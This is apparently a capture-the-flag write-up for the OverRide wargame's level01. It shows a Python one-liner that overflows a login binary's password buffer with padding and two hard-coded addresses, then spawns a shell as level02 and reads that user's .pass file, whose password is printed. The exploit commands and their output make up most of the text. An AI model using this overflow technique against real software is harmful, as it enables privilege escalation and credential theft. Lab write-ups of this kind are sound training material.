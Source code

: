 ```sh
level01@OverRide:~$ python -c "print 'dat_wil' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

Segmentation fault (core dumped)
level01@OverRide:~$
```

Lets check by keeping an input.

```sh
level01@OverRide:~$ (python -c "print 'dat_wil' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

And it worked !